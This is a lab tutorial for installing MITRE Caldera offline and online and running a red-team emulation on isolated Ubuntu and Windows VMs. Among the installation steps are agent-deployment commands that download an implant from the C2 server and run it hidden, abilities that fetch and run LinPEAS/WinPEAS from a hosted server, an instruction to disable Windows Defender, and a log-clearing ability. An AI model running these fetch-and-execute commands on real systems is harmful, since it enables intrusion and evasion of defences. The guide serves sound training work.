


# **Caldera**

Caldera is a cybersecurity platform designed to automate adversary emulation, support red team operations, and streamline incident response.

Built on the [**MITRE ATT&CK** **framework**](https://attack.mitre.org/), Caldera is an ongoing research project at MITRE. It consists of two key components:

1. **Core System** – The main framework, available in this repository, includes an asynchronous command-and-control (C2) server with a REST API and a web interface.
2. **Plugins** – Extend the framework’s capabilities, adding functionality such as agents, reporting, and collections of TTPs.

## **Lab Setup for Proof of Concept**

In this proof of concept, an attack simulation was conducted on Ubuntu and Windows virtual machines (VMs) within a secure and controlled environment. Caldera was installed on the Ubuntu VM to automate adversary emulation.

**Note: Do not attempt to replicate the attack emulation demonstrated here unless you are properly trained and it is safe to do so. Unauthorised attack emulation can result in legal consequences and unintended damage to systems. Always ensure that such activities are carried out by qualified professionals in a secure, isolated environment.**

| **Host** | **OS** | **Role** | **IP Address** |
| --- | --- | --- | --- |
| Fortigate | Fortios 7.6.0 | Firewall/Router | 192.168.1.10 (WAN) / 10.0.0.1 (LAN) |
| Caldera | Ubuntu 24.04  | Caldera Server | 10.0.0.100 |
| Ubuntu | Ubuntu 24.04 | Caldera Linux Agent | 10.0.0.200 |
| WS2019 | Windows Server 2019 | Caldera Windows Agent | 10.0.0.50 |



## **Installing Caldera**

You can install Caldera in just four commands by following the simplified installation steps. Alternatively, it can be set up and run using a Docker container.

### **System Requirements**

Caldera is designed to work across various target systems. The key requirements are as follows:

- **Operating System:** Linux or macOS
- **Python:** Version 3.8 or newer (with pip3)
- **NodeJS:** Version 16 or newer (required for Caldera v5)
- **Browser:** A modern option, such as Google Chrome (recommended)
- **Packages:** As specified in the [requirements](https://github.com/mitre/caldera/blob/master/requirements.txt) file

### **Recommended Setup**

For a development environment and to enable dynamic agent compilation, the following are advised:

- **GoLang:** Version 1.17 or newer (for enhanced agent functionality)
- **Hardware:** At least 8GB of RAM and 2 CPUs
- **Packages:** As specified in the [dev requirements](https://github.com/mitre/caldera/blob/master/requirements-dev.txt) file

## **Installing Caldera Offline (Ubuntu)**

The documentation outlines the steps for installing MITRE Caldera offline on Ubuntu 24.04.

### **On an Internet-Connected Machine**

On an internet-connected machine, refresh the package lists from the repositories and create a structured directory for downloading dependencies:

```bash
sudo apt-get update
mkdir -p ~/caldera-offline/{vmtools,pip3,chrome,curl,jq,upx,git,nodejs,nodejs/npm,node-modules,magma-dist,go,go-modules}
```

Download and install VM tools and its dependencies (this will enable copy and pasting and dynamic resolution). 

```bash
cd ~/vmtools
apt-get download \
  libatkmm-1.6-1v5 \
  libcairomm-1.0-1v5 \
  libglibmm-2.4-1t64 \
  libgtkmm-3.0-1t64 \
  libmspack0t64 \
  libpangomm-1.4-1v5 \
  libsigc++-2.0-0v5 \
  libxmlsec1t64 \
  libxmlsec1t64-openssl \
  open-vm-tools \
  open-vm-tools-desktop \
  zerofree
sudo dpkg -i *.deb
```

After installing VM tools, you may need to reboot the VM if copy and pasting does not work. 

Download Python3-pip and its dependencies (required to run `pip3 download`). 

```bash
cd ~/caldera-offline/pip3
apt-get download python3-pip python3-setuptools python3-wheel ca-certificates python3 \
    python3-pkg-resources python3-minimal python3.12 libpython3-stdlib \
    openssl debconf cdebconf python3-venv python3-tk python3-doc \
    libdebian-installer4 libtextwrap1 python3.12-doc blt libtk8.6 tk8.6-blt2.5 python3.12-venv \
    libc6 libtcl8.6 libfontconfig1 libx11-6 libxft2 libxss1 libjs-jquery libjs-underscore \
    python3-pip-whl python3-setuptools-whl
```

Install the packages in the following order. Verify Python3-pip installation. 

```bash
sudo dpkg -i python3-minimal_3.12.3-0ubuntu2_amd64.deb
sudo dpkg -i libpython3-stdlib_3.12.3-0ubuntu2_amd64.deb
sudo dpkg -i python3_3.12.3-0ubuntu2_amd64.deb
sudo dpkg -i *.deb
pip3 --version
```

If you encounter the warning related to permission issue, simply run the `sudo apt-get download <SNIP>` command again to proceed.

```
#Example
W: Download is performed unsandboxed as root as file '/home/cyber/python3-pip/build-essential_12.9ubuntu3_amd64.deb' couldn't be accessed by user '_apt'. - pkgAcquire::Run (13: Permission denied)
```

Download and install chrome (recommended for accessing Caldera web interface). Verify installation. 

```bash
cd ~/caldera-offline/chrome
wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb
sudo dpkg -i *.deb
google-chrome --version
```

Download and install curl (required for agent to connect to Caldera server). Verify installation. 

```bash
cd ~/caldera-offline/curl
sudo apt-get download curl libc6 libcurl4t64 zlib1g
sudo dpkg -i *.deb
curl --help
```

Download and install jq (required to view report in JSON format). Verify installation. 

```bash
cd ~/caldera-offline/jq
sudo apt-get download jq libc6 libjq1
sudo dpkg -i *.deb
jq --help
```

Download upx. 

```bash
cd ~/caldera-offline/upx
wget https://github.com/upx/upx/releases/download/v4.2.4/upx-4.2.4-amd64_linux.tar.xz
```

Download and install Git (required to run `git clone`). Verify Git installation. 

```bash
cd ~/caldera-offline/git
sudo apt-get download git git-man liberror-perl
sudo dpkg -i *.deb
git --version
```

Download and install Node.js Verify Node.js installation (required to run `npm` commands).

```bash
cd ~/caldera-offline/nodejs
wget https://nodejs.org/dist/v22.13.1/node-v22.13.1-linux-x64.tar.xz
tar -xvf node-v22.13.1-linux-x64.tar.xz
sudo mv node-v22.13.1-linux-x64 /usr/local/nodejs
echo 'export PATH=/usr/local/nodejs/bin:$PATH' >> ~/.bashrc
source ~/.bashrc
node --version
npm --version
```

Download and install npm v11. Verify npm installation (required to run `npm` commands). 

```bash
cd ~/caldera-offline/nodejs/npm
wget https://registry.npmjs.org/npm/-/npm-11.0.0.tgz
tar -xzf ~/caldera-offline/nodejs/npm/npm-11.0.0.tgz -C ~/caldera-offline/nodejs/npm --strip-components=1
sudo /usr/local/nodejs/bin/node ~/caldera-offline/nodejs/npm/bin/npm-cli.js install -g npm
sudo ln -s /usr/local/nodejs/bin/npm /usr/bin/npm
npm --version
```

Download and install Go. Verify Go installation (required to run `go` commands).

```bash
cd ~/caldera-offline/go
wget https://go.dev/dl/go1.22.11.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.22.11.linux-amd64.tar.gz
echo "export PATH=\$PATH:/usr/local/go/bin" >> ~/.bashrc
source ~/.bashrc
go version
```

Clone and prepare the Caldera repository's **master** branch. This process may take some time.

```bash
cd ~/caldera-offline
git clone https://github.com/mitre/caldera.git --recursive --branch master
```

Navigate `~/caldera-offline/caldera/plugins/atomic/data` and clone and prepare Atomic Red Team repository. This process may take some time.

```bash
cd ~/caldera-offline/caldera/plugins/atomic/data
git clone --depth=1 https://github.com/redcanaryco/atomic-red-team.git
```

Fetch Golang dependencies for the Sandcat plugin.

```bash
cd ~/caldera-offline/caldera/plugins/sandcat/gocat
go mod tidy && go mod download
cp -r ~/go/pkg/mod ~/caldera-offline/go-modules
```

Fetch Node.js dependencies for the Magma plugin.

```bash
cd ~/caldera-offline/caldera/plugins/magma
npm install
npm run build
cp -r node_modules ~/caldera-offline/node-modules
cp -r dist ~/caldera-offline/magma-dist
```

Edit `caldera-offline/caldera/requirements.txt` with the following changes:

```bash
nano ~/caldera-offline/caldera/requirements.txt
```

```bash
#Ubuntu 24.04
aiohttp-jinja2==1.5.1
aiohttp==3.10.8
aiohttp_session==2.12.0
aiohttp-security==0.4.0
aiohttp-apispec==3.0.0b2
jinja2==3.1.3
pyyaml==6.0.1
cryptography==42.0.3 #ref issues
websockets==11.0.3
Sphinx==7.1.2
sphinx_rtd_theme==1.3.0
myst-parser==2.0.0
marshmallow==3.20.1
dirhash==0.2.1
marshmallow-enum==1.5.1
ldap3==2.9.1
lxml~=4.9.1  # debrief
reportlab==4.0.4  # debrief
rich==13.7.0
svglib==1.5.1  # debrief
Markdown==3.4.4  # training
dnspython==2.4.2
asyncssh==2.14.1
aioftp~=0.20.0
packaging==24.2 #ref issues
croniter~=3.0.3
pyopenssl #ref issues
docker #resolve warning
```

Make a directory for Python dependencies and download all dependencies listed in the `requirements-dev.txt` and `requirements.txt` into the `python_deps` folder. 

```bash
mkdir ~/caldera-offline/caldera/python_deps
pip3 download -r ~/caldera-offline/caldera/requirements-dev.txt --dest ~/caldera-offline/caldera/python_deps
pip3 download -r ~/caldera-offline/caldera/requirements.txt --dest ~/caldera-offline/caldera/python_deps
```

Compress all dependencies for transfer

```bash
cd ~/caldera-offline
tar -czvf caldera-offline.tar.gz *
```

Transfer `caldera-offline.tar.gz` to the air-gapped Ubuntu VM using a USB drive.

### **On the Air-Gapped Environment**

On the air-gapped Ubuntu VM, make a directory called caldera-offline and extract the transferred archive.

```bash
mkdir ~/caldera-offline && cd ~/caldera-offline
tar -xzvf ~/caldera-offline.tar.gz
```

Install the Python3-pip packages in the following order. Verify Python3-pip installation.

```bash
cd ~/caldera-offline/pip3
sudo dpkg -i python3-minimal_3.12.3-0ubuntu2_amd64.deb
sudo dpkg -i libpython3-stdlib_3.12.3-0ubuntu2_amd64.deb
sudo dpkg -i python3_3.12.3-0ubuntu2_amd64.deb
sudo dpkg -i *.deb
pip3 --version
```

Install Google Chrome and verify installation.

```bash
cd ~/caldera-offline/chrome
sudo dpkg -i *.deb
google-chrome --version
```

Install jq and verify installation.

```bash
cd ~/caldera-offline/jq
sudo dpkg -i *.deb
jq --help
```

Install curl and verify installation.

```bash
cd ~/caldera-offline/curl
sudo dpkg -i *.deb
curl --help
```

Install upx and verify installation.

```bash
cd ~/caldera-offline/upx
tar -xvf upx-4.2.4-amd64_linux.tar.xz
sudo mv upx-4.2.4-amd64_linux/upx /usr/local/bin/
upx --version
```

Install Node.js and verify installation.

```bash
cd ~/caldera-offline/nodejs
tar -xvf node-v22.13.1-linux-x64.tar.xz
sudo mv node-v22.13.1-linux-x64 /usr/local/nodejs
echo 'export PATH=/usr/local/nodejs/bin:$PATH' >> ~/.bashrc
source ~/.bashrc
node --version
```

Install npm v11 and verify installation. This process may take some time.

```bash
cd ~/caldera-offline/nodejs/npm
tar -xzf ~/caldera-offline/nodejs/npm/npm-11.0.0.tgz -C ~/caldera-offline/nodejs/npm --strip-components=1
sudo /usr/local/nodejs/bin/node ~/caldera-offline/nodejs/npm/bin/npm-cli.js install -g --cache ~/caldera-offline/nodejs/npm-cache --no-audit --no-fund
sudo ln -s /usr/local/nodejs/bin/npm /usr/bin/npm
npm --version
```

Install Go and verify installation.

```bash
cd ~/caldera-offline/go
sudo tar -C /usr/local -xzf go1.22.11.linux-amd64.tar.gz
echo "export PATH=\$PATH:/usr/local/go/bin" >> ~/.bashrc
source ~/.bashrc
go version
```

Restore Golang Dependencies.

```bash
mkdir -p ~/go/pkg
cp -r ~/caldera-offline/go-modules/* ~/go/pkg/mod
```

Restore Node.js dependencies for the Magma plugin.

```bash
cd ~/caldera-offline/caldera/plugins/magma
cp -r ~/caldera-offline/node-modules node_modules
cp -r ~/caldera-offline/magma-dist dist
```

This restores the Node.js dependencies and built Magma frontend, so you don’t need to run `npm install` or `npm run build` again.

Install all dependencies listed in requirements-dev.txt and requirements.txt.

```bash
cd ~/caldera-offline/caldera/
pip3 install -r requirements-dev.txt --no-index --find-links=./python_deps --break-system-packages
pip3 install -r requirements.txt --no-index --find-links=./python_deps --break-system-packages
```

**Resolving Common Issues**

If you encounter this warning:

```bash
WARNING: The script safety is installed in '/home/cyber/.local/bin' which is not on PATH.
```

Add the directory to your `PATH`:

```bash
echo 'export PATH="$PATH:/home/cyber/.local/bin"' >> ~/.bashrc
source ~/.bashrc
```

### **Running Caldera**

Navigate to the Caldera directory and launch the server. Wait until you see All systems ready. This process may take some time. 

```bash
cd ~/caldera-offline/caldera
python3 server.py --build --log DEBUG
```

```bash
2025-02-01 04:46:20 INFO     Creating new secure config in conf/local.yml                                                                                        config_generator.py:55
                    INFO                                                                                                                                         config_generator.py:30
                             Log into Caldera with the following admin credentials:                                                                                                    
                                 Red:                                                                                                                                                  
                                     USERNAME: red                                                                                                                                     
                                     PASSWORD: <SNIP>                                                                                             
                                     API_TOKEN: <SNIP>
                                 Blue:                                                                                                                                                 
                                     USERNAME: blue                                                                                                                                    
                                     PASSWORD: <SNIP>                                                                                             
                                     API_TOKEN: <SNIP>                                                                                            
                             To modify these values, edit the conf/local.yml file.   

<SNIP>

                    INFO     All systems ready.                                                                                                                           server.py:104

 ██████╗ █████╗ ██╗     ██████╗ ███████╗██████╗  █████╗
██╔════╝██╔══██╗██║     ██╔══██╗██╔════╝██╔══██╗██╔══██╗
██║     ███████║██║     ██║  ██║█████╗  ██████╔╝███████║
██║     ██╔══██║██║     ██║  ██║██╔══╝  ██╔══██╗██╔══██║
╚██████╗██║  ██║███████╗██████╔╝███████╗██║  ██║██║  ██║
 ╚═════╝╚═╝  ╚═╝╚══════╝╚═════╝ ╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝

 
```

The login credential for the web UI can be found in `~/caldera-offline/caldera/conf/local.yml`

At this stage, the web interface can only be accessed on the local machine hosting Caldera using the URL `http://localhost:8888`. While we can still open the web interface from another host on the same network using `http://<IP address>:8888`, the login page will be unresponsive.

To resolve this issue, exit Caldera by pressing `Ctrl + C`.

Edit `~/caldera-offline/caldera/conf/local.yml` with the following details:

```bash
nano ~/caldera-offline/caldera/conf/local.yml
```

```bash
app.contact.http: http://SERVER-IP:8888
app.frontend.api_base_url: http://SERVER-IP:8888
```

Edit `~/caldera-offline/caldera/plugins/magma/.env` with following details:

```bash
nano ~/caldera-offline/caldera/plugins/magma/.env
```

```bash
VITE_CALDERA_URL=http://SERVER-IP:8888
```

Rebuild Caldera with following parameters. Wait until you see All systems ready. This process may take some time. 

```bash
cd ~/caldera-offline/caldera
python3 server.py --build --fresh --log DEBUG
```

The newly generated login credential for the web UI can be found in `~/caldera-offline/caldera/conf/local.yml`

From the Ubuntu VM, verify that you can log in to Caldera's web interface using the Red user’s credentials, with the Caldera VM's IP address as the URL `http://<SERVER-IP>:8888`. Likewise, verify that you can log in to Caldera's web interface using the Red user’s credentials and the Caldera VM’s IP address from the Caldera VM itself.




## **Installing Caldera Online**

### **Quick Installation**

You can set up Caldera swiftly by running the following four commands in your terminal:

```bash
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
pip3 install -r requirements.txt
python3 server.py --insecure --build
```

### **Step-by-Step Installation Guide**

1. **Clone the Repository:**
    
    Use a recursive clone to include all plugins. It is recommended to specify a version or release (in `x.x.x` format). Cloning non-release branches, such as `master`, may introduce bugs. The basic command is:
    
    ```bash
    git clone https://github.com/mitre/caldera.git --recursive --branch x.x.x
    ```
    
    For example, to clone version 5.0.0:
    
    ```bash
    git clone https://github.com/mitre/caldera.git --recursive --branch 5.0.0
    ```
    
2. **Navigate to the Directory:**
    
    ```bash
    cd caldera
    ```
    
3. **Install Dependencies:**
    
    ```bash
    sudo pip3 install -r requirements.txt
    ```
    
4. **Start the Server:**
    
    Start the server with the `--build` argument on the first launch or when pulling updates:
    
    ```bash
    python3 server.py --build
    ```
    
    After launching, access the interface at `http://localhost:8888`. Log in with the default username `red` and the password found in the `conf/local.yml` file, generated when the server starts.
    
    To learn how to use Caldera, visit the Training plugin and complete the capture-the-flag style course.
    

### **Docker Deployment**

Caldera can also be installed and run using Docker.

1. **Clone the Repository:**
    
    Clone the repository recursively, specifying the desired version/release:
    
    ```bash
    git clone https://github.com/mitre/caldera.git --recursive --branch x.x.x
    ```
    
2. **Build the Docker Image:**
    
    Navigate to the repository directory and build the Docker image.
    
    ```bash
    cd caldera
    docker build --build-arg WIN_BUILD=true . -t caldera:server
    ```
    
    Alternatively, use the `docker-compose.yml` file:
    
    ```bash
    docker-compose build
    ```
    
3. **Run the Docker Container:**
    
    Start the Caldera server, modifying port forwarding as necessary:
    
    ```bash
    docker run -p 7010:7010 -p 7011:7011/udp -p 7012:7012 -p 8888:8888 caldera:server
    ```
    
4. **Stop the Docker Container:**
    
    To shut down the container gracefully, first identify the container ID:
    
    ```bash
    docker ps
    ```
    
    Then, send an interrupt signal:
    
    ```bash
    docker kill --signal=SIGINT [container ID]
    ```
    

## **Introduction to Caldera**

### **Configuring Abilities**

Before deploying Caldera agents, we need to edit the abilities we will be using. In the web UI, under Campaigns, navigate to Abilities. Search for Check Python, then click on it.


Under Executor, enter following details for linux and windows and delete darwin (if it exists). Click Save. 

| Platform | linux |
| --- | --- |
| Executor | sh |
| Command | python3 —version |

| Platform | windows |
| --- | --- |
| Executor | psh |
| Command | python3 —version |


Search for Check Chrome, then repeat the similar process:

| Platform | windows |
| --- | --- |
| Executor | psh |
| Command | which google-chrome |

| Platform | linux |
| --- | --- |
| Executor | sh |
| Command | which google-chrome |


Search for Check Go, then repeat the similar process:

| Platform | windows |
| --- | --- |
| Executor | psh |
| Command | which go |

| Platform | linux |
| --- | --- |
| Executor | sh |
| Command | which go |


In the web GUI, under Campaigns, navigate to Agents and click Configuration.


The default implant name is 'splunkd', but you can change it. For Bootstrap Abilities, add 'Check Python', 'Check Go', and 'Check Chrome'. For Deadman Abilities, add 'Clear Logs'. Click Save.


### **Deploying Linux Agent**

Click 'Deploy an Agent'. For Agent, select 'Sandcat'. For Platform, select 'Linux'.  Copy and paste the commands into the Linux client.

For example:

```bash
server="http://10.0.0.100:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```


After running the commands on the Linux client, confirm that the agent is visible and its status is 'Alive' in the Caldera web UI.


### **Deploying Windows Agent**

Click 'Deploy an Agent'. For Agent, select 'Sandcat'. For Platform, select 'Windows'. **On Windows client, disable Windows Defender.** Copy and paste the commands into the PowerShell terminal of the Windows client.

For example:

```powershell
$server="http://10.0.0.100:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


After running the commands on the Windows client, confirm that the agent is visible and its status is 'Alive' in the Caldera web UI.


### **Verifying Access to Agents**

Under Plugins, navigate to Access and select your Linux and Windows agents. You will see the actions defined in Bootstrap and Deadman Abilities completed on each client, along with their status (success or failed). 


### **Creating a New Adversary Profile**

Under Campaigns, navigate to Adversaries. Click 'New Profile', then edit the Adversary name and description (e.g., 'Red Haast Eagle'; 'This is our kill chain'). Click 'Done'.


Click Add Ability.


Search and select Check Python.


Click Check Python to Edit Ability.


Verify that executors for Linux and Windows are available, as configured previously.

Add the Abilities for ‘Check Go’ and 'Check Chrome'. Repeat the process as needed. Click Save.


### **Creating Custom Abilities**

Navigate to abilities and click Create an Ability.


Put following details:

| Name | Run LinPEAS |
| --- | --- |
| Description | Run LinPEAS to enumerate host for privilege escalation. |
| Tactic | discovery |
| Technique ID | T1083 |
| Technique Name | File and Directory Discovery |


Click Add Executor and put following details and click Create:

| Platform | linux |
| --- | --- |
| Executor | sh |
| Command | wget http://10.0.0.100:8000/linpeas.sh -O /dev/shm/linpeas.sh; sh /dev/shm/linpeas.sh | tee /dev/shm/linpeas.out |
| Timeout | 300 |
| Cleanup | rm -rf /dev/shm/linpeas.sh |


Repeat the process for Creating an ability for winPEAS.

| Name | Run WinPEAS |
| --- | --- |
| Description | Run WinPEAS to enumerate host for privilege escalation. |
| Tactic | discovery |
| Technique ID | T1083 |
| Technique Name | File and Directory Discovery |


Add windows executor with following details and click Create:

| Platform | windows |
| --- | --- |
| Executor | psh |
| Command | Invoke-WebRequest -Uri "http://10.0.0.100:8000/winpeas.exe" -OutFile "C:\Windows\Temp\winpeas.exe";
Start-Process -FilePath "C:\Windows\Temp\winpeas.exe" -NoNewWindow -Wait | Tee-Object -FilePath "C:\Windows\Temp\notes.txt" |
| Timeout | 300 |
| Cleanup | Remove-Item -Path "C:\Windows\Temp\winpeas.exe" -Force |


### **Downloading LinPEAS and WinPEAS**

Since we configured our agents to download LinPEAS and WinPEAS from the Caldera VM’s web server (10.0.0.100), we need to download the tools and host them on a web server.
On the Caldera VM, connect to the internet and download LinPEAS. Then, modify its permissions to allow execution by running the following commands:

```bash
cd ~
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

Download **WinPEAS** and output it as `winpeas.exe`:

```bash
cd ~
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe -O winpeas.exe
```

Start a Python web server to serve the downloaded tools:

```bash
python3 -m http.server
```


### **Adding Custom Abilities**

Navigate to Adversaries and add the ‘Run LinPEAS’ and ‘Run WinPEAS’ abilities to your Adversary profile. Click Save.


### **Creating an Operation**

Navigate to Operations and click ‘New Operation.’


Name the operation and select your newly created adversary profile. The default setting for obfuscators is plain-text, but other options, such as Base64, are available. Click Start.


The operation will start and execute the abilities we configured on the Linux and Windows agents. Wait until the operation returns a status for all abilities. This process may take some time. 


### **Adding a Manual Command**

To add a manual command, click **Manual Command**, select the agent, choose the executor, and enter the command. Click Add Cimmand.

For example, to view the output of **LinPEAS** on an Ubuntu agent using **sh**, enter the following command:

```bash
cat /dev/shm/linpeas.out
```


### **Generating an Operation Report (JSON)**

The "Run LinPEAS" and "Run WinPEAS" abilities cause an error when generating a full JSON report, as the report contains a null value. For demonstration purposes, an adversary profile named "Red Haast Eagle v2" has been created, excluding both abilities. Additionally, a new operation called "Cyber Defence Kit v2" has been created and successfully completed using the Red Haast Eagle v2 adversary profile to demonstrate the functionality of downloading an operation report in JSON format. Navigate to operations, select Cyber Defence Kit v2 and click Download Report. 


You can include agent output unless it contains sensitive data. Reports can be downloaded in JSON (Full Report), Event Logs, or CSV format. Select Full Report and click Download.


Use the jq to view to JSON report by running:

```bash
cat 'Cyber Defence Kit_report.json' | jq . | less
```

Search for chrome by running:

```bash
/chrome
```


### **Generating a PDF Report**

The debrief plugin provides a centralised view of campaign analytics, operation metadata, visuals, techniques, tactics, and discovered facts. Navigate to Debrief under Plugins and select your newly created operation. Click Download PDF Report.


Select Report Sections that you want to include, then click Download.


This generates a well-formatted PDF report.


### **Generating a Layer for MITRE ATT&CK Navigator**

For demonstration purposes, the **internet has been connected** temporarily to access **MITRE ATT&CK Navigator**. There is a way to host **MITRE ATT&CK Navigator** in an air-gapped environment, which will be covered in a separate section later. 

Click Compass plugin. Select your newly created adversary profile and click Generate Layer. This will automatically download `layer.json` file. 


Click Open Existing Layer, then select Upload from Local. Choose layer.json and dismiss the warning for an outdated layer.


This highlights the discovery techniques in ATT&CK Navigator used by our newly created adversary profile.


## **References**

- [https://github.com/mitre/caldera](https://github.com/mitre/caldera)
- [https://caldera.mitre.org/](https://caldera.mitre.org/)
- [https://caldera.readthedocs.io/en/latest/index.html](https://caldera.readthedocs.io/en/latest/index.html)
- [https://www.youtube.com/watch?v=ZSDhDV48DUs&list=PLA3BVzhXP1c0DwPORcVdjpEukfRmgcsOk](https://www.youtube.com/watch?v=ZSDhDV48DUs&list=PLA3BVzhXP1c0DwPORcVdjpEukfRmgcsOk)
- [https://youtu.be/Z9QdgD8dG24?si=U0mLaJk9a0DSBkWY](https://youtu.be/Z9QdgD8dG24?si=U0mLaJk9a0DSBkWY)